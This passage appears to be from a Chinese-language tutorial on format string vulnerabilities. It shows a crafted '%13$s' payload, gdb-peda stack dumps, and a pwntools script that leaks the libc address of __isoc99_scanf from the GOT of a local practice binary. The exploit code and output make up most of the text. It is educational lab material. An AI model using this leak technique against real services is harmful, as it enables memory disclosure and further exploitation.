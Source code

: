 ```
dililearngent@dililearngent-virtual-machine:~/Desktop/format$ python -c 'print("\x18\xa0\x04\x08"+".%13$s")' > text333
gdb-peda$ r < text333

[------------------------------------stack-------------------------------------]
0000| 0xffffcdfc --> 0x8048517 (<main+124>:	add    esp,0x20)
0004| 0xffffce00 --> 0xffffce34 --> 0x804a018 --> 0xf7e625c0 (<__isoc99_scanf>:	push   ebp)
0008| 0xffffce04 --> 0x1 
0012| 0xffffce08 --> 0x88888888 
0016| 0xffffce0c --> 0xffffffff 
0020| 0xffffce10 --> 0xffffce2a ("ABCD")
0024| 0xffffce14 --> 0xffffce34 --> 0x804a018 --> 0xf7e625c0 (<__isoc99_scanf>:	push   ebp)
0028| 0xffffce18 --> 0x80481fc --> 0x38 ('8')
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0xf7e50030 in printf () from /lib32/libc.so.6
gdb-peda$ c
Continuing.
�.�%��
[Inferior 1 (process 57278) exited with code 012]

```

可以得到__isoc99_scanf的虚拟地址为0xf7e625c0，可以通过x/w指令查看，由于0x804a018处仍然是一个指针地址，所以没有成功打印字符串

第四步：借助pwntools来得到正确格式的地址

```
from pwn import *
sh = process('./formatSee')
leakmemory = ELF('./formatSee')
__isoc99_scanf_got = leakmemory.got['__isoc99_scanf']
print hex(__isoc99_scanf_got)
payload = p32(__isoc99_scanf_got) + '%13$s'
print payload
gdb.attach(sh)
sh.sendline(payload)
sh.recvuntil('%13$s\n')
print hex(u32(sh.recv()[4:8])) # remove the first bytes of __isoc99_scanf@got
sh.interactive()
```

运行结果：

```
dililearngent@dililearngent-virtual-machine:~/Desktop/format$ python formatSee.py
[+] Starting local process './formatSee': pid 58749
[*] '/home/dililearngent/Desktop/format/formatSee'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
0x804a018
\x18\x04%13$s
[*] Process './formatSee' stopped with exit code 10 (pid 58749)
0xf7e165c0
```
